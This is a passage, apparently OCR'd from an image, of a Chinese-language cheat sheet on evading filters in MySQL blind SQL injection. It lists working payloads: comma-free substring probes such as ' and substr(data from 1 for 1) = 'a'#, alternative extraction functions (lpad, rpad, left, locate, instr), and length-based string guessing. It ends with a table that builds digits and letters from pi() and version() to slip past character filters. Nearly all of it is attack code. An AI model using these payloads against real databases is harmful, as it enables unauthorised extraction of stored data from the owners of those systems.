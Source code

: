 不适用逗号来获取

```
' and substr(data from 1 for 1) = 'a'#

```

同样也可以使用一下比较少见的函数来尝试绕过

```
lpad(data,1,space(1)) // lpad('hi',4,'?') = '??hi'
rpad(data,1,space(1)) // rpad('hi',4,'?') = 'hi??'
left(data,1)
reverse(right(reverse(data),1))
insert(insert(version(),1,0,space(0)),2,222,space(0))

```

有些函数有类似搜索匹配的功能

```
'-if(locate('f',data),1,0)#
'-if(locate('fo',data),1,0)#
'-if(locate('foo',data),1,0)#
instr(), position()

```

使用函数进行字符串的切割

```
length(trim(leading 'a' FROM data)) # length will be shorter
length(replace(data, 'a', '')) # length will be shorter

```

2种方式都是相同效果

0x04 注入时主要使用的一些东西
=====

```
1个控制流程操作(select, case, if(), ...)
1个比较操作(=, like, mod(), ...)
1个字符串的猜解(mid(), left(), rpad(), …)
1个字符串生成(0x61, hex(), conv())

```

使用`conv([10-36],10,36)`可以实现所有字符的表示

```
false !pi()           0     ceil(pi()*pi())           10 A      ceil((pi()+pi())*pi()) 20       K
true !!pi()           1     ceil(pi()*pi())+true      11 B      ceil(ceil(pi())*version()) 21   L
true+true             2     ceil(pi()+pi()+version()) 12 C      ceil(pi()*ceil(pi()+pi())) 22   M
floor(pi())           3     floor(pi()*pi()+pi())     13 D      ceil((pi()+ceil(pi()))*pi()) 23 N
ceil(pi())            4     ceil(pi()*pi()+pi())      14 E      ceil(pi())*ceil(version()) 24   O
floor(version())      5     ceil(pi()*pi()+version()) 15 F      floor(pi()*(version()+pi())) 25 P
ceil(version())       6     floor(pi()*version())     16 G      floor(version()*version()) 26   Q
ceil(pi()+pi())       7     ceil(pi()*version())      17 H      ceil(version()*version()) 27    R
floor(version()+pi()) 8     ceil(pi()*version())+true 18 I      ceil(pi()*pi()*pi()-pi()) 28    S
floor(pi()*pi())      9     floor((pi()+pi())*pi())   19 J      floor(pi()*pi()*floor(pi())) 29 T

```
